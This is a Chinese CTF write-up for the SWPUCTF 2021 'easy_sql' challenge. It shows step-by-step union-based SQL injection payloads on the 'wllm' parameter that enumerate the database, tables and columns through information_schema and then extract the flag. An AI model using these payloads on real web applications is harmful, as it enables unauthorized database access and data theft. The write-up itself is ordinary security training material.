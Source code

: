 # [SWPUCTF 2021 新生赛]easy_sql


# [SWPUCTF 2021 新生赛]easy_sql

> 一道简单不过的联合注入题，水一下文章数

![[SWPUCTF 2021 新生赛]easy_sql-1](https://pic.imgdb.cn/item/65367994c458853aeffd2420.jpg)

查看页面源码，得到参数名

![[SWPUCTF 2021 新生赛]easy_sql-2](https://pic.imgdb.cn/item/653679d3c458853aeffe0d17.jpg)

尝试用GET给wllm参数传个1

![[SWPUCTF 2021 新生赛]easy_sql-3](https://pic.imgdb.cn/item/65367a07c458853aeffece75.jpg)

`?wllm=1'`页面报错，存在注入点

![[SWPUCTF 2021 新生赛]easy_sql-4](https://pic.imgdb.cn/item/65367b9ac458853aef04a68b.jpg)

`?wllm=1'--+`页面恢复正常，为字符型

![[SWPUCTF 2021 新生赛]easy_sql-5](https://pic.imgdb.cn/item/65367c5ac458853aef079062.jpg)

`?wllm=1'order by 3--+`页面正常，`?wllm=1'order by 4--+`页面报错，有3个字段

![[SWPUCTF 2021 新生赛]easy_sql-6](https://pic.imgdb.cn/item/65367c78c458853aef080498.jpg)

`?wllm=-1'union select 1,2,3--+`得到回显点

![[SWPUCTF 2021 新生赛]easy_sql-7](https://pic.imgdb.cn/item/65367ceec458853aef09ce1c.jpg)

`?wllm=-1'union select 1,database(),3--+`得到数据库名test_db

![[SWPUCTF 2021 新生赛]easy_sql-8](https://pic.imgdb.cn/item/65367d7ec458853aef0cfe5f.jpg)

```sql
?wllm=-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="test_db"--+
```

得到表名test_tb,users

![[SWPUCTF 2021 新生赛]easy_sql-9](https://pic.imgdb.cn/item/65367ed2c458853aef11f27e.jpg)

```sql
?wllm=-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name="test_tb"--+
```

得到字段名id,flag

![[SWPUCTF 2021 新生赛]easy_sql-10](https://pic.imgdb.cn/item/6536807ec458853aef18a219.jpg)

`?wllm=-1'union select 1,flag,3 from test_tb--+`得到flag

![[SWPUCTF 2021 新生赛]easy_sql-11](https://pic.imgdb.cn/item/653680dac458853aef19ff6f.jpg)

